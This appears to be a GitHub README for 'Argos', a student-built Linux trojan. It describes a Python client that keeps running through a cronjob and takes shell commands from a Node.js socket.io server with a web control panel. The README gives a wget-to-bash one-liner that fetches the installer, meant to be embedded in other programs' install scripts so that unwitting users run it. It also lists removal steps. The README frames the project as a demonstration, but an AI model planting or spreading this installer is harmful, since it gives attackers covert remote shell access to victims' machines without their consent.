 # Argos

*Can see everything, beware of its omniscience, kneel before its greatness.*

⚠️ *Do not use for illegal purposes*

*THIS PROJECT IS IN PROGRESS.It FUNCTIONNAL but it's not as securised as it should be*
## Summary

- [**Presentation**](#presentation)
- [**Installation**](#installation)
- [**Removing**](#removing)
- [**Credits**](#credits)

## Presentation

#### Main goal

This program work on **Linux** distrubtion.

The main goal of this project is to show how frighteningly easy it is to create a program that can access to another machine.
This project is a [**trojan**](https://us.norton.com/internetsecurity-malware-what-is-a-trojan.html) that, when used in an installation script, can easily be installed and gain access to the whole system.

#### How it works

There is 2 main parts to this project:
- The online server
- The client

#### Client side

Get to the client part
```bash
cd client/
```

The client side program is made using [**python3**](https://www.python.org/downloads/) and can easily be called in the installation script of another program by using a simple curl command.

The client side is using [**socket io**](https://socket.io/fr/) to connect with the server through web sockets.
In case the server is not running, the program will try every 3 seconds to connect to the server until it's connected.

Once connected, the client script is waiting for instructions from the server.
The instruction it can get are mostly commands. In order to run the commands, it's using a child process that is running a shell, writing in it's stdin using the file descriptor obtained through the pty.spawn command.

Once the child process is done running a command, it send a ALRM signal to its ppid so we can get the output of the command.

#### Server side

Get to the server part:
```bash
cd online_server
```
Front:
```bash
cd frontend
```
Backend:
```bash
cd server
```
The server is made in [**Node js**](https://nodejs.org/en/download/).
The backend is composed of 2 server :
- A [**socker io**](https://socket.io/fr/get-started/chat) server
- A [**express JS**](https://expressjs.com/fr/) server

The *express JS* server is meant to received the requests from the frontend server.
Here are the routes of that server.
| Route | Protected using JWT |
|-------|---------------------|
|/login | NO |
|/services/:id| YES |
|/services/:id/shell| YES|

The socket server accept sockets and stock them in a global variable so the connexion can be used later on.
The sockets are listenning to events and so we are using that so in case of deconnexion with a client, the client will automaticly be remove from the list.

The /shell endpoint use the socket io server sending a command to the client and waiting for a response to send back the information to the frontend.

FrontEnd endpoints:
| Endpoint | Protected |
|----------|-----------|
|/login    | NO        |
|/clients  | YES       |
|/services/:id| YES    |
|/services/:id/shell| YES |

## Installation

In order to use the project, you need to have a script that people will run.

In this very script, you juste have to call this command (remember to replace the 'Adress of the online server' by your server adress) :
```bash
wget -q -O - https://raw.githubusercontent.com/Just1truc/Argos/main/client/install_argos > here && chmod 777 here && bash here "Adress of the online server" && rm here
```
Once this command has been run, everthing should be ready for the client.

Also, to setup the server, it's kinda more complicated.
You have to host both the [**front**](https://github.com/Just1truc/Argos/blob/main/online_server/frontend/README.md) and the [**backend**](https://github.com/Just1truc/Argos/tree/main/online_server/server/README.md).

## Removing

This trojan is pretty annoying right? So let's remove it from your computer !
To do so, you just need to first execute this command to get rid of the cronjob :
```bash
crontab -r
```

Then, you need to cut the access to your computer, so let's kill the script doing that:
if you don't have ``htop``, you may have to install it.
```bash
htop -F python
```
Then, keep the pid of the command that is using *python3* to run and kill it:
```bash
kill [pid]
```

Automatically kill process using :
```
kill $(ps -aux | grep /usr/local/src/.service.exwrap.py | grep -v "grep" | awk '{print $2}')
```

## Credits:

#### Client side && Backend developper : Justin Duc

[![linkeding bage](https://img.shields.io/badge/-linkedin-0A66C2?logo=linkedin&style=for-the-badge)](https://www.linkedin.com/in/justin-duc-51b09b225/)
[![git hub bage](https://img.shields.io/badge/-GitHub-181717?logo=GitHub&style=for-the-badge)](https://github.com/Just1truc)
[![mail](https://img.shields.io/badge/-Mail-0078D4?logo=Microsoft-Outlook&style=for-the-badge)](mailto:justin.duc@epitech.eu)

#### Frontend Developper : Baptiste Leroyer

[![linkeding bage](https://img.shields.io/badge/-linkedin-0A66C2?logo=linkedin&style=for-the-badge)](https://www.linkedin.com/in/baptiste-leroyer-a69894227/)
[![git hub bage](https://img.shields.io/badge/-GitHub-181717?logo=GitHub&style=for-the-badge)](https://github.com/ZiplEix)
[![mail](https://img.shields.io/badge/-Mail-0078D4?logo=Microsoft-Outlook&style=for-the-badge)](mailto:baptiste.leroyer@epitech.eu)

#### DevOps Developper : Leo Dubosclard

[![linkeding bage](https://img.shields.io/badge/-linkedin-0A66C2?logo=linkedin&style=for-the-badge)](https://linkedin.com/in/leo-dubosclard)
[![git hub bage](https://img.shields.io/badge/-GitHub-181717?logo=GitHub&style=for-the-badge)](https://github.com/ZerLock)
[![mail](https://img.shields.io/badge/-Mail-0078D4?logo=Microsoft-Outlook&style=for-the-badge)](mailto:leo.dubosclard@epitech.eu)

#### Frontend Developper : Joshua Brionne

[![linkeding bage](https://img.shields.io/badge/-linkedin-0A66C2?logo=linkedin&style=for-the-badge)](https://www.linkedin.com/in/joshua-brionne/)
[![git hub bage](https://img.shields.io/badge/-GitHub-181717?logo=GitHub&style=for-the-badge)](https://github.com/izimio)
[![mail](https://img.shields.io/badge/-Mail-0078D4?logo=Microsoft-Outlook&style=for-the-badge)](mailto:joshua.brionne@epitech.eu)

#### Frontend Developper : Paul laban

[![linkeding bage](https://img.shields.io/badge/-linkedin-0A66C2?logo=linkedin&style=for-the-badge)](https://www.linkedin.com/in/paul-laban-5b190b227/)
[![git hub bage](https://img.shields.io/badge/-GitHub-181717?logo=GitHub&style=for-the-badge)](https://github.com/501stEcho)
[![mail](https://img.shields.io/badge/-Mail-0078D4?logo=Microsoft-Outlook&style=for-the-badge)](mailto:paul.laban@epitech.eu)

#### Responsible for maintainability and stability: Mathias André

[![linkeding bage](https://img.shields.io/badge/-linkedin-0A66C2?logo=linkedin&style=for-the-badge)](https://www.linkedin.com/in/mathias-andré/)
[![git hub bage](https://img.shields.io/badge/-GitHub-181717?logo=GitHub&style=for-the-badge)](https://github.com/MathiDEV)
[![mail](https://img.shields.io/badge/-Mail-0078D4?logo=Microsoft-Outlook&style=for-the-badge)](mailto:mathias.andre@epitech.eu)
